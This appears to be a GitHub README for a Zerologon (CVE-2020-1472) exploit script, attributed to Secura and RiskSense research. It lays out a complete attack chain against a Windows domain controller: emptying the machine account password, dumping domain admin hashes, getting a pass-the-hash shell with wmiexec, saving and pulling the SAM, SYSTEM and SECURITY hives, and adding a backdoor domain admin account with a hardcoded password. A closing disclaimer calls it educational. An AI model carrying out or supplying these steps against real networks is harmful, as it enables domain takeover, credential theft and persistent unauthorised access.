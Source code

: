 # zerologon
zerologon script to exploit CVE-2020-1472 CVSS 10/10
Exploit code based on https://www.secura.com/blog/zero-logon and https://github.com/SecuraBV/CVE-2020-1472. Original research and scanner by Secura, modifications by RiskSense Inc. https://github.com/risksense/zerologon

To exploit, clear out any previous Impacket installs you have and install Impacket from https://github.com/SecureAuthCorp/impacket/commit/b867b21 or newer.

`apt update`

`apt remove --purge impacket-scripts python3-impacket `
`apt autoremove`

`git clone https://github.com/rthalley/dnspython.git`
`sudo python3 setup.py install`
`cd ..`
`git clone https://github.com/SecureAuthCorp/impacket.git`
`cd impacket`
`sudo python3 setup.py install`
`git clone `

Then, do:

`python3 set_empty_pw DC_NETBIOS_NAME DC_IP_ADDR`

If that's successful you will then be able to:

`sudo secretsdump.py -just-dc domain/hostname\$@ip`

pressing "Enter" on prompt for password will pass you through,
which should get you Domain Admin hash. After you have that, wmiexec.py to the target DC with a credential from the secretsdump 

`wmiexec.py domain/Administrator@ip -hashes hash`

and do

`reg save HKLM\SYSTEM system.save`
`get system.save`
`del /f system.save`


`reg save HKLM\SAM sam.save`
`get sam.save`
`del /f sam.save`


`reg save HKLM\SECURITY security.save
get security.save
del /f security.save`

And then you can create a new Admin account just in case, 

`net user myadmin Hello1234 /ADD /DOMAIN`

and add the new account to domain admins group to obtain full privilages,

`net group "Domain Admins" myadmin /ADD /DOMAIN`

and probably `exit` now from C:\>

Then you can run

`sudo secretsdump.py -sam sam.save -system system.save -security security.save LOCAL`

And that should show you the original NT hash of the machine account. You can then re-install that original machine account hash to the domain by

`python3 reinstall_original_pw.py DC_NETBIOS_NAME DC_IP_ADDR ORIG_NT_HASH`

Reinstalling the original hash is necessary for the DC to continue operating normally.

And just to make sure if the restoration process worked,

`sudo secretsdump.py -just-dc domain/hostname\$@ip`

and prressing "Enter" at password prompt won't work anymore.

And we're done here.

Happy hunting.

DISCLAIMER: This is purely for educational purposes, I will not be held responsible for any actions or their consequences
HACKING INTO SOMEONE ELSE'S DEVICE IS ILLEGAL AND IS PUNISHABLE BY LAW.
